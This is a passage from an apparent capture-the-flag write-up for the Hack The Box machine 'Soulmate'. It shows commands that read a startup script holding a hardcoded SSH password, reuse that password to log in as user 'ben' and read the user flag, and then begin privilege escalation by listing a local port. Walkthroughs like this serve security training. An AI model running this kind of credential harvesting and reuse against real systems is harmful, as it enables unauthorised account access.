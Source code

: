 ```bash
www-data@soulmate:/$ cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner

<REDACTED>

        {auth_methods, "publickey,password"},

        {user_passwords, [{"ben", "HouseH0ldings998"}]},
        {idle_time, infinity},                                                                                                                                                               
        {max_channels, 10},                                                                                                                                                                  
        {max_sessions, 10},                                                                                                                                                                  
        {parallel_login, true}                             
        ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
                                                                                                                                  

<REDACTED>
```

as we can see, the password for the user `ben` is `HouseH0ldings998`.

We can use `ssh` to connect to `ben`, and then we get the user flag:
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ ssh ben@$target
ben@10.10.11.86's password: 
Last login: Wed Oct 22 12:43:49 2025 from 10.10.16.49
ben@soulmate:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben)
ben@soulmate:~$ cat user.txt 
1feca2d1ca1802aa8c8ff6e8e82c8961
```

### Privilege Escalation

I used `linpeas.sh`, and so that port `2222` is opened, here i'll show using `ss`:
```bash
ben@soulmate:~$ ss -lt
State                 Recv-Q                Send-Q                               Local Address:Port                                   Peer Address:Port               Process                
LISTEN                0                     5                                        127.0.0.1:2222                                        0.0.0.0:*                                         
```

As we remember, the file `/usr/local/lib/erlang_login/start.escript` contains these lines:
```bash
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
```
